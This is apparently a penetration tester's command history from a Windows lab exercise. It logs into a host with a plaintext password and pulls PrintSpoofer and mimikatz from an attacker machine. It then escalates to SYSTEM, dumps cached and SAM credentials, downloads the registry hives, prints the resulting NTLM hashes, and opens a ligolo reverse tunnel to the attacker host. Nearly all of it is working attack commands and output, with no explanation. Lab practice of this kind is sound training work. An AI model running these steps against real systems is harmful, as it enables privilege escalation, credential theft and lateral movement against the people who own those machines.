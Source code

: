 # Command History
```c
// xfreerdp3 /u:Eric.Wallows /p:EricLikesRunning800 /v:192.168.150.147
ssh Eric.Wallows@192.168.150.147

// upload printspoofer
iwr -uri http://192.168.45.186/PrintSpoofer64.exe -Outfile printspoofer.exe
//upload mimikatz
iwr -uri http://192.168.45.186/mimikatz.exe -Outfile mimikatz.exe

//get system
.\printspoofer.exe -i -c cmd

// run mimikatz
privilege::debug
sekurlsa::logonpasswords
// below need to tunnel to MS02


reg save HKLM\SAM C:\Users\eric.wallows\Documents\SAM
reg save HKLM\SYSTEM C:\Users\eric.wallows\Documents\SYSTEM

// connect with winrm to download
evil-winrm -i 192.168.150.147 -u eric.wallows -p EricLikesRunning800

download "C:\Users\eric.wallows\Documents\SAM"
download "C:\Users\eric.wallows\Documents\SYSTEM"

impacket-secretsdump -sam SAM -system SYSTEM LOCAL
    Administrator:500:aad3b435b51404eeaad3b435b51404ee:3c4495bbd678fac8c9d218be4f2bbc7b:::
    Guest:501:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    DefaultAccount:503:aad3b435b51404eeaad3b435b51404ee:31d6cfe0d16ae931b73c59d7e0c089c0:::
    WDAGUtilityAccount:504:aad3b435b51404eeaad3b435b51404ee:11ba4cb6993d434d8dbba9ba45fd9011:::
    Mary.Williams:1002:aad3b435b51404eeaad3b435b51404ee:9a3121977ee93af56ebd0ef4f527a35e:::
    support:1003:aad3b435b51404eeaad3b435b51404ee:d9358122015c5b159574a88b3c0d2071:::

upload ../../tools/ligolo/agent.exe
upload ../../tools/ligolo/wintun.dll

// on attacker
sudo ./proxy -selfcert -laddr 0.0.0.0:443

// on target
agent.exe -connect 192.168.45.186:443 -ignore-cert

Get-ChildItem -Path C:\ -Recurse -ErrorAction SilentlyContinue -Include ConsoleHost_history.txt -Force

type C:\Users\eric.wallows\AppData\Roaming\Microsoft\Windows\PowerShell\PSReadLine\ConsoleHost_history.txt


upload printspoofer64

.\PrintSpoofer64.exe -i -c powershell.exe

// back on mimikatz
lsadump::cache
    // Domain : MS01
    // SysKey : a5403534b0978445a2df2d30d19a7980

    // Local name : MS01 ( S-1-5-21-2114389728-3978811169-1968162427 )
```